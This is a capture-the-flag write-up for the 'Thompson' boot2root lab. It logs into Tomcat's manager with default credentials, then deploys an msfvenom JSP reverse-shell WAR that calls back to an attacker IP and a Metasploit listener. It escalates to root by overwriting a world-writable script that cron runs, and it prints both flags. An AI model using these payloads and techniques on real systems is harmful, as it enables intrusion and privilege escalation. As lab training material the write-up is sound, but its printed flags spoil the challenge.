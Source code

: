 # Thompson

boot2root machine for FIT and bsides guatemala CTF

read user.txt and root.txt

# #1 - user.txt

Nmap discovers 3 ports, 1 of being an Apache Tomcat application, on port 8080:

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

There is no `robots.txt` file, but a `dirsearch` scan revealed the presence of a `/manager` directory.

Connecting to it requires an authentication, but credentials are revealed on the following page:

~~~
$ curl -i http://10.10.61.255:8080/manager/html
HTTP/1.1 401 
Cache-Control: private
Expires: Wed, 31 Dec 1969 16:00:00 PST
WWW-Authenticate: Basic realm="Tomcat Manager Application"
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 2473
Date: Mon, 29 Jun 2020 18:03:37 GMT

<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>

[REDACTED]

</html>&lt;role rolename="manager-gui"/&gt;
&lt;user username="tomcat" password="s3cret" roles="manager-gui"/&gt;

[REDACTED]

</html>
~~~

Let's connect to the manager using `tomcat:s3cret`. From here, we have a page that allows us to:
 
* Manage applications (start, stop, undeploy)
* Upload new applications (via a war file)

Let's use `msfvenom` to make a JSP reverse shell in a war file:

~~~
$ msfvenom -p java/jsp_shell_reverse_tcp lhost=10.9.0.54 lport=4444 -f war -o shell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes
Saved as: shell.war
~~~

Now, open a listener in Metasploit:

~~~
$ msfconole -q
msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp 
payload => java/jsp_shell_reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.9.0.54
lhost => 10.9.0.54
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.9.0.54:4444 
msf5 exploit(multi/handler) > 
~~~

Back to the manager, upload `shell.war` (it will automatically deploy it to the server) and from the applications list, click on the link (it will redirect you to `/shell`). You should get a reverse shell in msfconsole.

~~~
[*] Command shell session 1 opened (10.9.0.54:4444 -> 10.10.96.20:60212) at 2020-06-30 07:42:41 +0200

msf5 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type              Information  Connection
  --  ----  ----              -----------  ----------
  1         shell java/linux               10.9.0.54:4444 -> 10.10.96.20:60212 (10.10.96.20)

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

SHELL=/bin/bash script -q /dev/null
tomcat@ubuntu:/$ id
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@ubuntu:/$ cat /home/jack/user.txt
cat /home/jack/user.txt
39400c90bc683a41a8935e4719f181bf
tomcat@ubuntu:/$ 
~~~

User flag: `39400c90bc683a41a8935e4719f181bf`

# #2 - root.txt

Notice that there is a crontab run by `root` every minute, that executes `id.sh` script located in jack's home:

~~~
tomcat@ubuntu:/home/jack$ cat /etc/crontab   
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
#
~~~

The script outputs the result of the `id` command to `test.txt`, and the file is writeable to the world.

~~~
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
~~~

Let's modify the script so that it reads the root flag instead:

~~~
tomcat@ubuntu:/home/jack$ printf '#!/bin/bash\ncat /root/root.txt > test.txt' > id.sh
<rintf '#!/bin/bash\ncat /root/root.txt > test.txt' > id.sh                  
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
cat /root/root.txt > test.txt
~~~

After a short while, the `test.txt` file contains the root flag.

~~~
tomcat@ubuntu:/home/jack$ cat test.txt	
d89d5391984c0450a95497153ae7ca3a
~~~

*Notice that we could do much better here, and take advantage of the fact that the script is executed by root to create a new user, and grant the user root privileges. However, as our intend is to get the root flag only, that should be enough.*

Root flag: `d89d5391984c0450a95497153ae7ca3a`
